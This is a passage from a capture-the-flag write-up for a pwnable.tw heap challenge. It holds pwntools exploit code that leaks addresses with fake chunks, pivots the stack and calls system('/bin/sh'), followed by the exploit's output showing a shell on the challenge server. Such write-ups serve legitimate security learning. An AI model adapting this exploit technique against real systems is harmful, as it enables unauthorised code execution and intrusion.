 ```python
# Constants found by manual enumeration
MYCART_ADDR = 0x0804b068
PREV_TO_FAKE_CHUNK_OFFSET = 1192

# leak fake_chunk_addr and then determinate ra_addr
fake_chunk = p32(MYCART_ADDR + 8) + b'XXXX' + p32(0) + p32(0)
prev_to_fake_chunk_addr = parse_leaked_addr(remove(i2b(27) + fake_chunk)) + PREV_TO_FAKE_CHUNK_OFFSET
log.info(f'[x] Prev to fake chunk addr: {hex(prev_to_fake_chunk_addr)}')

fake_chunk = p32(prev_to_fake_chunk_addr + 8) + b'XXXX' + p32(0) + p32(0)
fake_chunk_addr = parse_leaked_addr(remove(i2b(27) + fake_chunk))
log.info(f'[x] Fake chunk addr: {hex(fake_chunk_addr)}')
```

### Calling system('/bin/sh')
Now we are left with an easy part. All we have to do is:
1) overwrite frame buffer (stored $ebp from main function)
2) place our short rop, in this case system_addr + 'JUNK' + binsh_addr + 0 + 0 using a cmd buff
3) exit handler to invoke an exploit

```python
# overwrite ebp_handler, so when program returns from main, we get stack pivoting
handler_ebp_delete = fake_chunk_addr + HANDLER_EBP_OFFSET
handler_cmd_buf = fake_chunk_addr + HANDLER_CMD_BUF_OFFSET
fake_chunk = p32(e.got['puts']) + b'XXXX'  + p32(handler_cmd_buf - 5) + p32(handler_ebp_delete - 8)
remove(i2b(27) + fake_chunk)
log.info(f'[x] Overwriten stored ebp, will cause stack pivot when returning from main')


# place call to system('/bin/sh') on fake stack
p.sendline(b'6' + p32(libc_base + libc.symbols['system']) + b'XXXX' + p32(libc_base + BINSH_OFFSET) + p32(0) + p32(0))
log.info(f'[x] Prepared call to system(\'/bin/sh)')

exit_handler()
log.info(f'[x] Exited handler and will get shell in a sec')
```

We have everything. Let's check [our exploit](exp.py):

```bash
$ python3 exp.py remote
[+] Opening connection to chall.pwnable.tw on port 10104: Done
[*] [x] Set total item price in cart to 7174
[*] [x] Allocated fake chunk
[*] [x] Leaked puts_addr address: 0xf7633140
[*] [x] Calculated libc_base from puts_addr: 0xf75d4000
[*] [x] Prev to fake chunk addr: 0x8b054b8
[*] [x] Fake chunk addr: 0xffb3b518
[*] [x] Overwriten stored ebp, will cause stack pivot when returning from main
[*] [x] Prepared call to system('/bin/sh)
[*] [x] Exited handler and will get shell in a sec
[*] Switching to interactive mode
Times Up!
$ id
uid=1000(applestore) gid=1000(applestore) groups=1000(applestore)
```